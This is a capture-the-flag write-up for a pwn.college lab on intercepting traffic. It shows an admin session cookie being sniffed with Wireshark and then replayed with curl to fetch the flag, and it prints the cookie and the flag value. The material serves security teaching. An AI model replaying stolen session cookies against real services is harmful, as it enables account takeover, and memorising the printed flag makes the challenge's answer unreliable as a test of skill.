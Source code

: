 ```yaml
---
tags: ["Computer Networking", "HTTP"]
title: "Sniffing Cookie"
description: Sniffing Cookie
reference: https://pwn.college/intro-to-cybersecurity/intercepting-communication/
---
```


# Problem

You have learned to sniff traffic, but knowledge is only the beginning of action. Now it's time to apply this to an actual security scenario. Steal the admin's cookie, and GET the flag!

HINT: You can use your full set of HTTP tools, as you studied in Talking Web, to use the cookie once you steal it! But whatever you do, make sure to do it in the 10.0.0.1 terminal, to make sure you're running on the right host! You can run Wireshark or whatever else you need in the background (as you learned in The Linux Luminarium).

# Solution

## 1. use wiresharl to capture the HTTP traffic and get the cookie

session=eyJ1c2VyIjoiYWRtaW4ifQ.aHppkA.hCH2z6mcgMfLjKYMuktPW8IvEhk

![](assets/http_cookie.png)

## 2. Access some paths with the cookie

Guess the path `/flag`:


```
root@ip-10-0-0-1:/challenge# curl --cookie "session=eyJ1c2VyIjoiYWRtaW4ifQ.aHppkA.hCH2z6mcgMfLjKYMuktPW8IvEhk" http://10.0.0.2/flag
pwn.college{kgYUTg2IHnw6iElXx-2RR_Vc8ZD.0VM0AjNxwCM0YjMyEzW}
```
